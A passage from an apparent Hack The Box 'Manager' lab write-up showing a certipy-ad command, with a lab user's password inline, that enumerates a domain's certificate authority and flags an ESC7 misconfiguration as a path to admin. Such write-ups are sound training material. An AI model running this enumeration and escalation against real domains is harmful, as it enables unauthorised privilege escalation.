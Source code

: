 ## Getting Root

### Information Gathering

Find a certificate template we can abuse to get admin

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad find -u raven -p R4v3nBe5tD3veloP3r\!123 -dc-ip 10.129.46.174 -stdout   
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
{% endvimhl %}
we see a possible vulnerability **ESC7**

<br>
and this CA template
